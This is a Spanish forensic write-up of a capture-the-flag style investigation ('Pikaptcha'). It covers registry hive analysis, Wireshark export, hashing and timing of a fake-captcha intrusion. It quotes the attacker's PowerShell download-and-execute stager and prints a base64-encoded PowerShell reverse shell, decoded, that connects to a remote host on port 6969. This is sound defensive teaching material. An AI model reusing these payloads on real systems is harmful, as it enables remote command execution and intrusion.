


**task 1** 

Es crucial entender cualquier carga útil ejecutada en el sistema para el acceso inicial. Analizando la colmena del registro para el usuario happy grunwald. Cuál es el comando completo que se ejecutó para descargar y ejecutar el stager.

Para esto ya nos piden trabajar con el usuari happy grunwald, asi que hay que movernos a su directorio.

```bash 
┌──(kali㉿kali)-[~/…/Pikaptcha/C/Users/happy.grunwald]
└─$ ls -al 
total 2028
drwxrwxr-x 3 kali kali    4096 Apr 30 05:04 .
drwxrwxr-x 7 kali kali    4096 Sep 23  2024 ..
drwxrwxr-x 3 kali kali    4096 Sep 23  2024 AppData
-rw-rw-r-- 1 kali kali 1310720 Mar  9  2023 NTUSER.DAT
-rw-rw-r-- 1 kali kali  389120 Mar  8  2023 ntuser.dat.LOG1
-rw-rw-r-- 1 kali kali  361472 Mar  8  2023 ntuser.dat.LOG2
```

Ahora tenemos que abrir el `registry explorer` y cargar el NTUSER.DAT, nos saldrá un recuadro de avisando que las informació esta icompleta, así que tendremos que cargar los `ntuser.dat.LOG1` y `ntuser.dat.LOG2`, con estó ya nos dara el registro

Cuando abrimos un hive de registro (por ejemplo **NTUSER.DAT**) junto con sus ficheros de log (`.LOG1` y `.LOG2`), Registry Explorer hace internamente lo siguiente:

1. **Verificación de consistencia**  
   Cada hive lleva asociado un pequeño “journal” (las transacciones pendientes) en los ficheros `ntuser.dat.LOG1` y `ntuser.dat.LOG2`. Estos logs contienen cambios que aún no se han consolidados totalmente en el archivo principal `.DAT`.

2. **Reproducción de transacciones (log replay)**  
   Antes de presentar el contenido al analista, la herramienta revisa en qué punto quedaron esas transacciones (por si el sistema se apagó de forma abrupta o hubo un crash) y “reproduce” o descarta las que estén completas o corruptas, respectivamente.  
   - Si hubo escrituras interrumpidas, aplica sólo las transacciones válidas.  
   - Si encuentra logs más recientes, descarta los anteriores redundantes.

3. **Generación del hive limpio**  
   Tras esa reproducción de logs, crea un nuevo archivo in-memory (o volcado en disco) llamado algo así como `NTUSER.DAT_clean`. Ese fichero representa el estado **consistente y completo** del hive, listo para ser explorado sin errores de transacción.

---

### ¿Por qué es útil este paso?

- **Integridad forense**: te aseguras de ver todos los cambios legítimos hasta la última transacción válida, sin artefactos de un apagado inesperado.  
- **Evitación de corrupción**: evitas errores o datos parcialmente escritos que provocarían fallos al leer claves o valores.  
- **Análisis fiable**: al trabajar con el hive “clean”, todas las herramientas de parsing y búsquedas internas funcionarán sin toparte con inconsistencias de formato.

**Básicamente** reconciliamos el hive principal con sus logs de transacción y entregarte un volcado “limpio” (*.DAT_clean) que refleja el registro en su estado correcto, en este caso, el del usuario **hapy grunwald**. 

**Explicado** esto, podemos pasar a la pestaña de `Bookmarks`, donde ya se nos muestran los registros más importantes, las llaves `run`, `runonce` y `runmry` son las que nos interesan en este caso, y en `runmru` ya podemos ver un comando interesante y sospechoso: 



Registry Explorer trae pre-configurados una serie de **bookmarks** o “marcadores” a rutas clave del registro para el forense. Entre ellos suelen estar:

- **HKCU\…\CurrentVersion\Run**  
- **HKCU\…\CurrentVersion\RunOnce**  
- **HKCU\…\CurrentVersion\RunMRU**  
- (y los equivalentes bajo HKLM en lugar de HKCU)

Con un doble clic sobre cada uno saltamos directamente a esa subclave.

### Fución de cada clave:

| Clave            | Ruta típica                                                                 | Comportamiento                                                           |
|------------------|------------------------------------------------------------------------------|--------------------------------------------------------------------------|
| **Run**          | `…\Microsoft\Windows\CurrentVersion\Run`                                     | Se ejecuta **siempre** en cada inicio de sesión del usuario o del sistema.|
| **RunOnce**      | `…\Microsoft\Windows\CurrentVersion\RunOnce`                                 | Se ejecuta **solo una vez**; tras ejecución Windows borra esa entrada.     |
| **RunMRU**       | `…\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`                         | **Historial** de comandos lanzados manualmente desde “Ejecutar…” (Win+R). |
| **(RunOnceEx)**  | `…\Microsoft\Windows\CurrentVersion\RunOnceEx`                               | Variante más compleja de RunOnce, con diferentes fases de instalación.   |

### Esto nos sirve para: 

1. **Detección de persistence**  
   Cualquier binario, script o comando que un atacante quiera que arranque con el sistema suele apuntarse aquí.

2. **Recuperar payloads descargados**  
   A menudo veremos comandos como el que acabamos de encontrar:
   ```powershell
   powershell -NOP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"
   ```
   guardado en RunOnce, para que se lance **solo al siguiente arranque**.

3. **Ver historial de comandos**  
   En RunMRU aparece, por ejemplo, si el atacante abrió manualmente una consola con un comando de descarga.

---
**task 2**

¿A qué hora UTC se ejecutó la carga maliciosa? 

En la imagen mostrada en la pregunta anterior podemos ver que fue a las `2024-09-23 05:07:45`

---
**task 3**

El payload que se ejecutó inicialmente descargó un script de PowerShell y lo ejecutó en memoria. Cuál es el hash sha256 del script?

Esto podemos extraerlos desde la captura de red que se nos proporcionó,lo abrimos con wireshark y exportamos los objetos que tengan que ver con la ip `43.205.115.44` y obtenemos el hash con la terminal.

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR/Pikaptcha]
└─$ sha256sum office2024install.ps1 
579284442094e1a44bea9cfb7d8d794c8977714f827c97bcb2822a97742914de  office2024install.ps1
```

---
**task 4**

¿A qué puerto se conectó la reverse shell?

Esto podemos verlo inspeccionando el `.ps1`: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR/Pikaptcha]
└─$ strings office2024install.ps1  
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIANAAzAC4AMgAwADUALgAxADEANQAuADQANAAiACwANgA5ADYAOQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/blue-labs/DFIR/Pikaptcha]
└─$ echo "JAB<SNIP>KQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=" | base64 -d 
$client = New-Object System.Net.Sockets.TCPClient("43.205.115.44",6969);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

---
**task 5**

¿Por cuantos segundos se estableció la reverse shell entre el C2 y el equipo de trabajo de la víctima?

Esto podemos determinarlo con la diferencia de el tiempo final de la ejecución menos el tiempo inicial, podemos usar bash para hacer esto: 

Tomamos el tiempo del primer y ultimo tiempo de la conexión, tomamos el primer paquete y ultimo que lanze el siguiente comando: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR/Pikaptcha]
└─$ TZ=UTC tshark -r pikaptcha.pcapng -Y "ip.addr == 43.205.115.44 && tcp.port == 6969" -t ad| awk '{print $2" "$3}' 
tshark: The file "pikaptcha.pcapng" appears to be damaged or corrupt.
(pcapng: total block lengths (first 1548 and second 0) don't match)
2024-09-23 05:07:48.073971
<SNIP>
2024-09-23 05:14:31.484932
```

Calculamos la diferencia: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR/Pikaptcha]
└─$ date1="2024-09-23 05:07:48.073971"
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/blue-labs/DFIR/Pikaptcha]
└─$ date2="2024-09-23 05:14:31.484932"
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/blue-labs/DFIR/Pikaptcha]
└─$ t1=$(date -d "$date1" +%s)                                                 
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/blue-labs/DFIR/Pikaptcha]
└─$ t2=$(date -d "$date2" +%s)
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/blue-labs/DFIR/Pikaptcha]
└─$ dif=$((t2 - t1))                  
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/blue-labs/DFIR/Pikaptcha]
└─$ echo "$dif"
403
```

----
**task 7**

El atacante alojó un Captcha malicioso para atraer a los usuarios. ¿Cuál es el nombre de la función que contiene la carga maliciosa que se pegará en el portapapeles de la víctima?

Para esto podemos filtrar por el tráfico http relacionado con la ip del atacante, hay que fijarnos en las respuestas con codigo HTTP 200 que son las que nos indican que no hubo errores, en un paquete podremos ver precisamente una respuesta 200 después de acceder al recurso malicioso, dentro del paquete encontraremos el código fuente del captcha, que contiene el comando que vimos al principio del análisis: 




